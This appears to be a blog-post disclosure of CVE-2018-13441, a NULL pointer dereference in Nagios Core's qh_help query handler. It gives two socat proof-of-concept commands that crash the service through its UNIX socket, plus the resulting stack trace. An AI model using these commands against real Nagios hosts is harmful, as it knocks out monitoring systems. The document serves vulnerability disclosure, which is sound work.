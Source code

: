 ```yaml
---
layout: post
title: "[CVE-2018-13441] Nagios Core qh_help Denial of Service"
comments: true
description: "Nagios Core qh_help Denial of Service"
keywords: "nagios, nagioscore, dos, denial of service"
---
```


qh_help in Nagios Core version 4.4.1 and earlier is prone to a NULL pointer dereference vulnerability, which allows attacker to cause a local denial-of-service condition by sending a crafted payload to the listening UNIX socket.

```
$ echo -ne “#help\0" | socat unix-connect:./poc/nagios.qh -
$ echo -ne “@help\0" | socat unix-connect:./poc/nagios.qh -

#0 0x554fef in qh_help /home/user/nagioscore/base/query-handler.c:374:7
#1 0x5543db in qh_input /home/user/nagioscore/base/query-handler.c:227:12
#2 0x6fac51 in iobroker_poll /home/user/nagioscore/lib/iobroker.c:353:4
#3 0x5bc334 in event_execution_loop /home/user/nagioscore/base/events.c:1136:12
#4 0x53a503 in main /home/user/nagioscore/base/nagios.c:844:4
#5 0x7f61587ae82f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#6 0x42b278 in _start (/home/user/nagioscore/base/nagios+0x42b278)
```
